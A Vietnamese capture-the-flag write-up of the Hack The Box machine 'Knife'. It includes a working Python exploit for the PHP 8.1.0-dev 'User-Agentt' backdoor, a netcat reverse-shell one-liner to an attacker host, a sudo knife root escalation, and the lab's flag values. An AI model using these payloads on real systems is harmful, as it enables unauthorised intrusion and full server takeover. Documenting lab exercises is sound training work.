


# Thông tin


> [!NOTE]
> Mức độ: Dễ 
> Nền tảng: Linux
> Url: https://app.hackthebox.com/machines/Knife
> Mô tả: Knife là một máy Linux có độ khó dễ, tích hợp một ứng dụng chạy trên phiên bản PHP có cửa hậu. Lỗ hổng này được lợi dụng để giành quyền kiểm soát máy chủ. Sau đó, một lỗi cấu hình sudo sẽ bị khai thác để giành quyền truy cập vào shell root.

# Recon

## Port scan 

```bash
nmap -sSVC -Pn 10.129.56.36
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-16 13:04 -0400
Nmap scan report for 10.129.56.36
Host is up (0.052s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.85 seconds
```

> Phát hiện 2 dịch vụ SSH, HTTP 

## Web 

> Truy cập dịch vụ web trang chính không có thông tin gì đáng chú ý, quét thư mục ẩn cũng không đem lại thông tin 
> Phân tích header response thu được phiên bản PHP chạy trên máy mục tiêu PHP 8.1.0-dev



# Exploit

> Phiên bản PHP 8.1.0-dev tồn tại lỗ hổng Backdoor Remote Code Execution thực thi mã tùy ý bằng cách gửi tiêu đề User-Agentt
> https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

```
"User-Agentt": "zerodiumsystem('" + cmd + "');"
```

- Thực thi lệnh id 


> Tạo mã khai thác 

```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

> Xâm nhập 

```
└─$ python3 49933.py             
Enter the full host url:
http://10.129.56.36/

Interactive shell is opened on http://IP_VICTIM/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP_ATTACK 4444 >/tmp/f

```

- Mở cổng lắng nghe
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.56.36] 45228
bash: cannot set terminal process group (915): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)
```

> User FLag 

```
a462d7a282dc62872f089cddd37d8ab5
```

# Privelege Escalation

> Liệt kê các lệnh có thể chạy với sudo 
> james có thể chạy `/usr/bin/knife` với quyền root mà không cần mật khẩu 

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

> Dùng knife chạy mã Ruby tạo shell có quyền root 

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

> Root Flag

```
c81207054281cdd8e7f02702be4a9709
```

# Kết luận 

> [!NOTE]
> - Máy này cần khai thác lỗ hổng trong PHP chạy trên web từ đó xâm nhập vào máy 
> - Leo thang qua việc thực thi lệnh chạy với đặc quyền cao 
>   
>  - Vá lỗ hổng:
>    + Cập nhật phiên bản PHP 
>    + Thiết lập lệnh knife với đặc quyền thấp cho người dùng thường 


